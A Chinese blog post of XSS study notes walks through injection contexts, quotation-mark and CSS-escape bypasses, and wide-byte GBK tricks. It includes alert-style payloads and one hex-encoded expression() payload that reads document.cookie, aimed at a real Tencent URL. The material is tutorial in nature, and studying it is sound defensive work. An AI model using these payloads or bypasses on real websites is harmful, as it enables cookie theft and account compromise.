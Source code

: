 ```yaml
---
title: XSS学习笔记3
time: 2016.02.02 10:47:00
layout: post
tags:
- 信息安全
- Web
- XSS
excerpt: 学习心伤的廋子的乌云XSS教程，通过例子，实例学习XSS。
    
---
```

### 0x01无过滤，输出在标签外
XSS的存在，必须涉及输入和输出。

也因此，过滤XSS一般在输入层或输出层过滤

对于没有任何过滤的，我们只要构造恶意代码前，将<,>""闭合即可。

这种漏洞的一般模型：

<HTML标签></HTML标签>

[输出]

<HTML标签></HTML标签>



或

<HTML标签>[输出]</HTML标签>

	payload：
	<img src=1 onerror=alert(1);>
在JS中，若遇到没有过滤的情况：

模型：
	
	<script>...[输出]...</script>

	<style>...[输出]...</script>

一般payload可以为：
	
	/><script>alert(1);</script>
	eval('alert(1)');void
![示例](http://wooyun.org/upload/201212/13142159aee108c1178a955e6f282cf1452a48ee.jpg)

---
### 0x02输出在标签内
比如：
	
	<input value="输出"> 、 <img onload="...[输出]..."> ，<body style="...[输出]..."> 

一种典型的例子就是：

	http://xxxx.com/search.php?word=test
	源码：<input type="text" value="test" />
对于上面的例子，如果没有过滤"，我们就可以构造下面这个payload

	test" onclick="alert(1)"
	输入后，源码变成：
	<input type="text" value="test" onclick＝"alert(1)"/>
这样就能xss
但是，大多数网站会对"进行过滤编码，编码成
	
	&quot;
这样我们先前对利用代码就失效了。

还一种例子是，当输出在
	
	<body style="[here]">
时，如
![image](http://wooyun.org/upload/201212/13152306bb005590e7b2859f5b157234729f5c32.jpg)

此时，就算代码过滤了“，但若其没有过滤\，我们就可以利用css编码＋expression来构造利用语句了。（如e可以编码成\65 \065 \000065）

其源码：

	http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=我是一个兵,爱国爱人民&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx
	
构造后：

	http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=;w:expr\65ssion\28%20eval\28\27\69\66\28\21\77\69\6e\64\6f\77\2e\78\29\7b\61\6c\65\72\74\28\64\6f\63\75\6d\65\6e\74\2e\63\6f\6f\6b\69\65\29\3b\77\69\6e\64\6f\77\2e\78\3d\31\7d\27\29\29&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx

便能成功弹出窗口。（注，现在只能在IE6、7下触发，其他浏览器都修复了这个bug）


还一个典型例子：

	<HTML标签 onXXXX="...[输出在这里].."> 的例子。

	<a href="javascript:[输出在这里]">xxxx </a> 的例子。

这个输出点可以执行js代码，我们一般会构造<script>[输出]</script>。但，若其被过滤，则没有非常好的方法。不过，有时我们可以考虑通过HTML实体编码来绕过。（这个例子具体参考：[link](http://wooyun.org/bugs/wooyun-2010-015963)）

---
### 0x03 宽子节绕过
宽字节一般用于sql注入，这里也可以用来绕过一些XSS过滤器。
宽字节的详细介绍可以参考：[https://www.91ri.org/8611.html](https://www.91ri.org/8611.html)
简略讲就是：对于％df％5c，％5c是\符号，GBK编码，它的编码范围是0x8140~0xFEFE（不包括xx7F），在遇到%df(ascii(223)) >ascii(128)时系统会自动拼接%5c，因此吃掉‘\’，而%27、%20小于ascii(128)的字符就保留了。注意：gb2312是不能吃掉％5c的，即\
具体例子可参考：[link](http://wooyun.org/bugs/wooyun-2010-015969)
### 参考
1. [http://wooyun.org/bugs/wooyun-2010-015959](http://wooyun.org/bugs/wooyun-2010-015959)
2. [http://wooyun.org/whitehats/心伤的瘦子/type/1/page/1](http://wooyun.org/whitehats/心伤的瘦子/type/1/page/1)
3. https://www.91ri.org/8611.html
